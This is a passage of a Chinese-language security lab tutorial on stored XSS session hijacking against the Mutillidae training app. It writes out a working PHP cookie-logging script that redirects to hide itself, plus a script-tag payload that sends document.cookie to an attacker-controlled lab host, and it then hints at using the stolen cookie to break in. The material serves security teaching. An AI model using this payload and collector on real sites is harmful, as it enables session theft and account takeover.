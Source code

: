 然后我们在当前目录中通过 `vim getcookie.php` 来创建我们获取 cookie 的恶意文件，并在文本中输入以下内容：

```
<?php

$cookie = $_GET['remote_cookie'];
$ip = getenv ('REMOTE_ADDR');
$time=date('Y-m-d g:i:s');
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cookie.txt', 'a');
fwrite($fp,"\n"." IP: " .$ip. " \n"." Date and Time: " .$time. "\n"." Referer: ".$referer."\n"." Cookie: ".$cookie."\n");
fclose($fp);
header("Location: http://192.168.122.102/mutillidae");

?>

```

我们通过 GET 的 cookie 变量来获取 cookie 值并存放在本地的 cookie 变量中，同时获取当前的访问者的 IP 地址，此时此刻的时间，还有访问的来源。

然后通过 fopen() 来创建一个 cookie.txt 的文本文件来存储获取到的值，若是该文本本来就存在就在其内容后面添加，不覆盖原本的内容。接着通过 fwrite() 函数来将我们刚刚所获取到的内容都写进去，最后关闭文件。为了不露出马脚，我们在执行完这一切之后将页面跳转至首页。

编写完成之后我们使用 `:wq` 保存并退出，紧接着我们在当前的文件夹中创建一个 cookie.txt 的文本文件，因为该目录的所属用户是 root，所以在这个 php 程序执行的时候是没有权限创建文件的，所以我们提前创建好，并使用 `chown www-data:www-data cookie.txt` 来改变该文件的所属者：

![show-cookietxt](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086803463.png/wm)

最后我们通过 `service apache2 start` 来启动 apache2，这样 php 程序才能够被访问。

做好这一切的准备工作之后，我们便可以开始攻击了。

首先我们进入实验环境：

![entry-pxss](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086705465.png/wm)

然后我们将这样一段 javascript 代码放入 blog 的输入框中：

```
<SCRIPT>document.location='http://192.168.122.101/getcookie.php?remote_cookie='+document.cookie</SCRIPT>
```

![entry-js](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086712501.png/wm)

点击 `Save Blog Entry` 之后我们会发现跳转到了 `192.168.122.102/mutillidae` 页面，说明我们已经注入成功。

同时我们可以通过 `less cookie.txt`查看 kali 主机中的存储文件：

![show-cookies](https://doc.shiyanlou.com/document-uid113508labid2434timestamp1483086727383.png/wm)

这就是我们刚刚登陆用户的 cookie，因为我们是使用的存储型 XSS，所以当我们再次访问刚才的页面，我们依然能够收到 cookie。

窃取 cookie 是 web session hijacking 的第一步骤，第二步是利用该 cookie 进入系统改坏事。还记得 cookie_manager 如何使用吗？

## 11. 总结
